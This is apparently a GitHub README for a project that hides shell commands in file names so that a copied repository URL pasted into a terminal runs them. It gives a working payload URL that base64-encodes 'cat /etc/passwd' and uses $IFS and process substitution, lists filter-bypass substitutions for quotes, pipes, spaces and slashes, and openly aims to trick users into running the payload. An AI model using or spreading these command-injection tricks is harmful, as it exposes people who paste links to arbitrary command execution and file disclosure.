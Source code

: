 # latrina
bypass url encoding for nontrivial shell commands

* click on the "Go to file" button
* click on the weirdly named file
* look at the address bar
* the url isn't sanitized

Brainlets like LTT will copy the url and eventually execute the payload, since they don't know about the "raw" button.  
Bypassing the rookie level will get you to this point.  
Bypassing the god-like level will get you the same, but on the raw content page, which is way nastier.  
Create a file called ";whoami" and follow the steps above.
When its url is pasted in the terminal, like ```wget http://localhost/;whoami```, the payload is executed.  
can we bypass the entire url encoding set and execute nontrivial commands?

# testing
use this waf and apply the url encoding patches  
https://raw.githubusercontent.com/theMiddleBlue/challenge-bypass-input-validation/main/index.php

# markdown
we can also put the link in the readme  
and hope someone will copy paste it in a terminal  
https://github.com/kusky3/latrina/blob/main/;a=('Y2F0IC9ldGMvcGFzc3dkCg==');b=('base');c=$IFS;d=64;$($b$d$c-d$c-<$c<(echo$c$a))  
but you still need to bypass the "<"

# bypassed
```
'"'   # needed to set string variables, bypassed with "('variable')"
'{'   # needed for "${IFS}", bypassed by concatenating "$" or "-" after them
'}'   # same as above
'|'   # needed for "command1 | command2", bypassed with "command2 < <(command1)"
' '   # needed as arguments separator, bypassed with $IFS
'<<<' # same as the "|" bypass
'>>>' # same as above
'/'   # needed for paths, bypassed by encoding the payload with base64
'&'   # needed to begin the command execution, replaced by ";"
'&&'  # same as above
'>'   # needed for redirection, replaced by "<"
```

# todo
rookie level:
```
'<'
```
should be pretty easy, we just need to find a command like base64  
that can encode text without using pipe "|" or redirect "<>"
e.g. goodbase -d "bG1hbwo="

god-like level:
```
'$'
';'
```
should be impossible since you can't use variables nor "start" the command execution
